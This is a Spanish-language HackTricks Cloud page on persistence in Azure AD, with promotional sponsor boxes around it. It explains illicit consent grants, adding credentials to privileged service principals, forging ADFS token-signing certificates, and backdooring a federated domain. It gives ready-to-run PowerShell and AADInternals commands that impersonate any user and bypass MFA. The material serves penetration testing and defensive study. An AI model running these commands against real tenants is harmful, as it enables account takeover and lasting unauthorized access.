 # Az - Persistencia

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Comparte tus trucos de hacking enviando PR a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) en Github.

</details>

### Concesión de consentimiento ilícito

Por defecto, cualquier usuario puede registrar una aplicación en Azure AD. Por lo tanto, puedes registrar una aplicación (solo para el inquilino objetivo) que necesite permisos de alto impacto con el consentimiento del administrador (y aprobarlo si eres el administrador) - como enviar correo en nombre de un usuario, gestión de roles, etc. Esto nos permitirá **ejecutar ataques de phishing** que serían muy **fructíferos** en caso de éxito.

Además, también podrías aceptar esa aplicación con tu usuario como una forma de mantener el acceso sobre ella.

### Aplicaciones y Principales de Servicio

Con privilegios de Administrador de Aplicaciones, GA o un rol personalizado con permisos de actualización de microsoft.directory/aplicaciones/credenciales, podemos agregar credenciales (secreto o certificado) a una aplicación existente.

Es posible **apuntar a una aplicación con permisos elevados** o **agregar una nueva aplicación** con permisos elevados.

Un rol interesante para agregar a la aplicación sería el **rol de administrador de autenticación privilegiada** ya que permite **restablecer la contraseña** de los administradores globales.

Esta técnica también permite **burlar la MFA**.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Para autenticación basada en certificado

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Federación - Certificado de firma de token

Con **privilegios de DA** en AD local, es posible crear e importar **nuevos certificados de firma de token** y **descifrado de token** que tienen una validez muy larga. Esto nos permitirá **iniciar sesión como cualquier usuario** cuyo ImuutableID conozcamos.

**Ejecuta** el siguiente comando como **DA en el servidor(es) ADFS** para crear nuevos certificados (contraseña predeterminada 'AADInternals'), agregarlos a ADFS, desactivar la rotación automática y reiniciar el servicio:

```powershell
New-AADIntADFSSelfSignedCertificates
```

Luego, actualiza la información del certificado con Azure AD:

```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```

### Federación - Dominio de confianza

Con privilegios de GA en un inquilino, es posible **agregar un nuevo dominio** (debe ser verificado), configurar su tipo de autenticación como federado y configurar el dominio para **confiar en un certificado específico** (any.sts en el siguiente comando) y emisor:

```powershell
# Usando AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Obtener el ImmutableID del usuario que queremos suplantar. Usando el módulo Msol
Get-MsolUser | select userPrincipalName,ImmutableID

# Acceder a cualquier aplicación en la nube como el usuario
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```

## Referencias

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Comparte tus trucos de hacking enviando PR a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) en Github.

</details>